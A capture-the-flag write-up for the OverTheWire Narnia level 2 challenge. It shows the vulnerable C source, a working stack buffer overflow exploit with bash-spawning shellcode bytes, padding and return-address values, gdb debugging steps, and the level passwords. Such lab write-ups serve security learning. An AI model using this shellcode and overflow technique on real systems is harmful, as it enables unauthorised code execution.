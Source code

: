 # Level 2 → Level 3

## Solution
```
ssh narnia2@narnia.labs.overthewire.org -p 2226
```
```
Zzb6MIyceT
```
```
cd /narnia ; ls -al
```
```
cat narnia2.c
```

The printed file is shown below:

```c
/*
   This program is free software; you can redistribute it and/or modify
   it under the terms of the GNU General Public License as published by
   the Free Software Foundation; either version 2 of the License, or
   (at your option) any later version.

   This program is distributed in the hope that it will be useful,
   but WITHOUT ANY WARRANTY; without even the implied warranty of
   MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
   GNU General Public License for more details.

   You should have received a copy of the GNU General Public License
   along with this program; if not, write to the Free Software
   Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```

In the first few seconds I didn't understand what could be done here. But then I remembered [microcorruption](https://github.com/SimchaTeich/Microcorruption)! And in my opinion, shellcode should be implanted here to the top of the stack and overwrite the value back which is 128+4 bytes from the top of the stack (plus 4 because there is an EBP register). Therefore, the order of operations will be as follows:
* Inserting shellcode at the top of the stack
    * The same shellcode from the previous challenge that causes bash to run
* Padding the shellcode so that it is 128+4 bytes in size
* And next to that will come the address to the top of the stack
     * This will overwrite the address back from main
     * Don't forget little endian

Let's get started:
1. shellcode is:
    ```
    SHELLCODE=$'\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'
    ```

2. padding is: 
    ```
    PADDING=$(perl -e 'print "A"x(128-33+4)')
    ```

3. what is the address of the top of the stack?
    
    #TODO: continue with gdb
    ```
    gdb --args ./narnia2 $(echo -e $(echo -e $SHELLCODE)$(echo -e $PADDING))
    ```
    ```
    disas main
    ```
    
    ![](0.png)

    Register `eax` contain the address to the shell code.

    ```
    b *0x080491d5
    ```
    ```
    r
    ```
    ```
    x/40x $sp
    ```

    ![](1.png)

    `0xffffd408` is the pushed `eax` for the `printf`. Actualy this is the address for the shellcode.This is the address we want it to overwrite the original value back. `0xf7c21500` this is the return value **from** the main. Let's overwrite it:
    ```
    exit
    ```
    ```
    SHELLCODE_ADDR=$'\x08\xd4\xff\xff'
    ```
    ```
    gdb --args ./narnia2 $(echo -e $(echo -e $SHELLCODE)$(echo -e $PADDING)$(echo -e $SHELLCODE_ADDR))
    ```
    ```
    b *0x080491d5
    ```
    ```
    r
    ```
    ```
    x/40x $sp
    ```

    ![](2.png)

    The second address indicates that we managed to hit the right place. But the first address indicates that when we added 4 bytes to the input, for some reason the addresses changed a bit. So we will do everything the same again, but the address of the shellcode will now be `0xffffd3f8`:

    ```
    exit
    ```
    ```
    SHELLCODE_ADDR=$'\xf8\xd3\xff\xff'
    ```
    ```
    gdb --args ./narnia2 $(echo -e $(echo -e $SHELLCODE)$(echo -e $PADDING)$(echo -e $SHELLCODE_ADDR))
    ```
    ```
    b *0x080491d5
    ```
    ```
    r
    ```
    ```
    x/40x $sp
    ```

    ![](3.png)

    Now let's try to run the program inside the gsb without any break point:

    ```
    exit
    ```
    ```
    gdb --args ./narnia2 $(echo -e $(echo -e $SHELLCODE)$(echo -e $PADDING)$(echo -e $SHELLCODE_ADDR))
    ```
    ```
    r
    ```
    
    ![](4.png)

    But still no permissions. Let's now try running outside of gdb:

    ```
    exit
    ```
    ```
    exit
    ```
    ```
    ./narnia2 $(echo -e $(echo -e $SHELLCODE)$(echo -e $PADDING)$(echo -e $SHELLCODE_ADDR))
    ```
    
    ![](5.png)

    This means that outside of gdb it doesn't work, but inside it it does. very strange. I tried to find answers to this, like [here](https://stackoverflow.com/questions/39187195/stack-buffer-overflow-works-on-gdb-doesnt-outsite-it), but nothing helped..<br />
    
    Are the addresses in gdb different from running without gdb?<br />
    Which leaves me with the same question - what is the address of the shellcode?<br />
    Or maybe there is another matter here?


After many attempts, I gave up and started reading a [solution](https://mcpa.github.io/narnia/wargame/pwnable/overthewire/2015/10/10/narnia02/).
The only thing I took from him (without understanding yet, sorry..) is that for some reason the beginning also needs to be padded. and change the address accordingly. When I tried it, it worked.

And hence:

```
PADDING1=$(perl -e 'print "A"x64')
```
```
SHELLCODE=$'\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'
```
```
PADDING2=$(perl -e 'print "A"x(128-33+4-64)')
```
```
SHELLCODE_ADDR=$'\x38\xd4\xff\xff'
```
```
./narnia2 $(echo -e $(echo -e $PADDING1)$(echo -e $SHELLCODE)$(echo -e $PADDING2)$(echo -e $SHELLCODE_ADDR))
```

![](6.png)

## Password for the next level:
```
8SyQ2wyEDU
```

## Appendix
At this point I have the password the next level, but I still don't know the difference between running **inside** `gdb` and running **outside**. To understand this better, I went to see other solutions of this challenge, for example [here](https://www.youtube.com/watch?v=FMzOEIQouJk).
